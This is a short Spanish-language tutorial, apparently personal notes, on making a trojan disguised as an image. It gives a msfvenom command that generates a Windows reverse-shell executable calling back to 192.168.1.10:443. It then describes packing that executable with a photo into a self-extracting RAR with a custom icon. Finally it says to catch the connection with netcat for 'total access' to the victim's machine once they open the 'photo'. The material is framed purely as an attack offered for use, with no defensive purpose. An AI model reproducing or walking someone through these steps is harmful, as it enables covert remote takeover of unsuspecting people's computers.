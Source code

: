 # Creamos el payload (virus) en linux preferentemente
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.10 LPORT=443 -f exe -o virus.exe
```

--------------------------------------

# Nos lo pasamos a windows para seguir trabajando ahi y lo guardamos en una carpeta junto con una imagen

---------------------------------------------

# Con esa imagen que queramos la transformamos a formato .ico 
# Hay paginas gratis en internet para hacer eso aca dejo una sino busca otra
 [Convertidor Imagen](https://imagen.online-convert.com/es/convertir-a-ico)

---------------------------

# Convertimos a rar seleccionando juntos el virus y la foto y (marcamos las siguientes casillas)
![[Captura de pantalla 2023-07-04 163709.jpg]]
![[autoextraible.jpg]]
![[config 1.jpg]]

-------------------------------------

# En la pestaña texto e iconos y examinamos en cargar icono desde fichero y elegimos la foto en formato .ico

![[examinar.jpg]]



# Se nos va a crear un archivo como este

![[Captura de pantalla 2023-07-04 165159.jpg]]


# Nos ponemos en escucha con netcat en el puerto para recibir la señal en el momento que el objetivo abra la foto y obtendremos acceso total a su maquina. 

----
